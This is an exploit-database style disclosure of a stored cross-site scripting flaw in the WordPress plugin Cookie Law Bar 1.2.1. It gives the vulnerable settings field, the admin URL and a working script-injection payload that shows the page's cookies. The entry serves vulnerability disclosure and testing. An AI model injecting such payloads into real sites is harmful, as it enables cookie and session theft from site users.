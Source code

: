 XSS
---

    # Exploit Title: WordPress Plugin Cookie Law Bar 1.2.1 - 'clb_bar_msg' Stored Cross-Site Scripting (XSS)
    # Date: 2021-05-24
    # Exploit Author: Mesut Cetin
    # Vendor Homepage: https://www.cookielawinfo.com/wordpress-plugin/
    # Software Link: https://wordpress.org/plugins/cookie-law-bar/
    # Version: 1.2.1
    # Tested on: Ubuntu 16.04 LTS, Wordpress 5.7.2

    # the "Bar Message" text field is vulnerable to stored XSS due to unsanitized user input
    # an authenticated attacker can retrieve cookies / sensitive data of all Wordpress users

    # proof of concept
    # navigate to the settings of the Cookie Law Bar under

    http://localhost/wp-admin/options-general.php?page=clb

    # inject the payload: </script><script>alert(document.cookie)</script> into the "Bar Message field" and save it

    # browsing through the Wordpress pages shows the cookies